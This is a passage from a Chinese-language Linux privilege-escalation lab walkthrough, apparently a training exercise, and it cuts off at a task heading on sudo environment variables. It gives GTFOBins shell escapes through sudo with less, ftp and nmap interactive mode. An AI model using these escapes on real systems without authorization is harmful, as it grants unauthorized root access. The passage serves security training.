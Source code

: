 **少了**([https://gtfobins.github.io/gtfobins/less/](https://gtfobins.github.io/gtfobins/less/))

```
sudo less /etc/profile
!/bin/sh
```

![](img/262b6c31c2cf95fc657e14734d5fb8db.png)

**FTP**([https://gtfobins.github.io/gtfobins/ftp/](https://gtfobins.github.io/gtfobins/ftp/))

```
sudo ftp
!/bin/sh
```

![](img/eb0657d69dd51655a85edbaa813448a7.png)

**nmap**([https://gtfobins.github.io/gtfobins/nmap/](https://gtfobins.github.io/gtfobins/nmap/))

安装了 Nmap 5.00，它具有交互模式:

```
sudo nmap --interactive
nmap> !sh
```

![](img/3d7fb7e1d3b4ef5fe5be11f1fd7f7ea5.png)

# 任务 7: Sudo 环境变量

正如演练所说，
